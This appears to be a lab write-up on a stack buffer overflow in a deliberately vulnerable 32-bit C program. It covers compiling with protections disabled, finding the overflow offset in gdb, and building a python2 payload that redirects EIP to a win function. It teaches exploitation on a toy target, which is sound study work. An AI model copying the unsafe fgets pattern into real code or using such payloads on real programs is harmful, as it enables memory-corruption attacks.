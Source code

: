 # Buffer Overflow Exploit without Shellcode (Redirection of `EIP`) in 32bit Executable

This example was supplied in https://samsclass.info/127/proj/ED202c.htm

## Compile Code

I compiled the `pwd.c`:

```c title="pwd.c"

#include <stdlib.h>
#include <stdio.h>

int test_pw() {
        char password[10];
        printf("Password address: %p\n", password);
        printf("Enter password: ");
        fgets(password, 50, stdin);
        return 1;
}

void win() {
        printf("You win!\n");
}

void main() {
        if (test_pw()) printf("Fail!\n");
        else win();
}
```


using:

```bash
cc \
    19          -mpreferred-stack-boundary=2 \
    20          -ggdb \
    21          -static \
    22          -m32 \
    23          -no-pie \
    24          -fno-stack-protector \
    25          -z execstack \
    26          -o /tmp/pwd pwd.c
```


## Overflow

Through trial and error, it was found that if we input more than 18 characters, the program crashes:

```bash
python2 -c 'print("U"*18)' | ./pwd
Password address: 0xffffccae
[1]    103844 done                              python2 -c 'print("U"*18)' | 
       103845 segmentation fault (core dumped)  ./pwd
```


## Seeing the Stack

Let's take a look at the stack right after the input. We open the program using `gdb` and look at the instructions for the `test_pw` function:

```
> gdb -q /tmp/pwd

(gdb) disas test_pw 
Dump of assembler code for function test_pw:
   0x08049da5 <+0>:     endbr32 
   0x08049da9 <+4>:     push   %ebp
   0x08049daa <+5>:     mov    %esp,%ebp
   0x08049dac <+7>:     push   %ebx
   0x08049dad <+8>:     sub    $0xc,%esp
   0x08049db0 <+11>:    call   0x8049c80 <__x86.get_pc_thunk.bx>
   0x08049db5 <+16>:    add    $0x9b24b,%ebx
   0x08049dbb <+22>:    lea    -0xe(%ebp),%eax
   0x08049dbe <+25>:    push   %eax
   0x08049dbf <+26>:    lea    -0x30ff8(%ebx),%eax
   0x08049dc5 <+32>:    push   %eax
   0x08049dc6 <+33>:    call   0x8051230 <printf>
   0x08049dcb <+38>:    add    $0x8,%esp
   0x08049dce <+41>:    lea    -0x30fe2(%ebx),%eax
   0x08049dd4 <+47>:    push   %eax
   0x08049dd5 <+48>:    call   0x8051230 <printf>
   0x08049dda <+53>:    add    $0x4,%esp
   0x08049ddd <+56>:    mov    $0x80e5434,%eax
   0x08049de3 <+62>:    mov    (%eax),%eax
   0x08049de5 <+64>:    push   %eax
   0x08049de6 <+65>:    push   $0x32
   0x08049de8 <+67>:    lea    -0xe(%ebp),%eax
   0x08049deb <+70>:    push   %eax
   0x08049dec <+71>:    call   0x8058110 <fgets>
   0x08049df1 <+76>:    add    $0xc,%esp
   0x08049df4 <+79>:    mov    $0x1,%eax
   0x08049df9 <+84>:    mov    -0x4(%ebp),%ebx
   0x08049dfc <+87>:    leave  
   0x08049dfd <+88>:    ret
```

We can see that the instruction right after getting the input from the user (`fgets`) is at byte 76. We put a breakpoint there so we can freeze the program and take a peak at the stack right after we supply the input.

```
(gdb) b * test_pw +76
Breakpoint 1 at 0x8049df1: file pwd.c, line 9.
```

Then we look at the two registers that define the range of the stack, `ESP` (start of stack) and `EBP` (end of stack).

```
(gdb) i r esp
esp            0xffffcc60          0xffffcc60
(gdb) i r ebp
ebp            0xffffcc7c          0xffffcc7c
```

We see that the stack is of size `0x1C` (28 bytes in decimal). Let's a take a look at the next 10 wordsize hex addresses from `ESP`:

```
(gdb) x/10x $esp
0xffffcc60:     0xffffcc6e      0x00000032      0x080e5300      0x55550002
0xffffcc70:     0x55555555      0x55555555      0x55555555      0x55555555
0xffffcc80:     0x0804000a      0x080e5000
```

We can see that our input (`U` is ASCII is `55`) overwrites every up until the `EBP`. So the next 4 characters we supply should be the address where we want the instruction pointer to go. This is how we control the flow of the program.

## Finding Return Address

We want to jump to the first instruction inside the `win` function:

```
(gdb) disas win 
Dump of assembler code for function win:

0x08049dfe <+0>:     endbr32 
0x08049e02 <+4>:     push   %ebp
0x08049e03 <+5>:     mov    %esp,%ebp
0x08049e05 <+7>:     push   %ebx
0x08049e06 <+8>:     call   0x8049e5f <__x86.get_pc_thunk.ax>
0x08049e0b <+13>:    add    $0x9b1f5,%eax
0x08049e10 <+18>:    lea    -0x30fd1(%eax),%edx
0x08049e16 <+24>:    push   %edx
0x08049e17 <+25>:    mov    %eax,%ebx
0x08049e19 <+27>:    call   0x80586f0 <puts>
0x08049e1e <+32>:    add    $0x4,%esp
0x08049e21 <+35>:    nop
0x08049e22 <+36>:    mov    -0x4(%ebp),%ebx
0x08049e25 <+39>:    leave  
0x08049e26 <+40>:    ret    
```

In this case, the address is `0x08049dfe`. We need to convert this address to little Endian form so it will become `\xfe\x9d\x04\x08`. We can use Python to create the payload for us.

## Create Payload with EIP redirection

We create the payload and pipe it into the program `stdin`:

```bash
> python2 -c 'print("UUUUUUUUUUUUUUUUUU\xfe\x9d\x04\x08")' | /tmp/pwd

Password address: 0xffffcdbe
Enter password: You win!
[1]    104775 done                              python2 -c 'print("UUUUUUUUUUUUUUUUUU\xfe\x9d\x04\x08")' | 
       104776 segmentation fault (core dumped)  /tmp/pwd

```

Make sure to use `python2` because `python3` added extra bytes as padding when printing hexadecimal characters as described in [this issue](https://bugs.python.org/issue34437).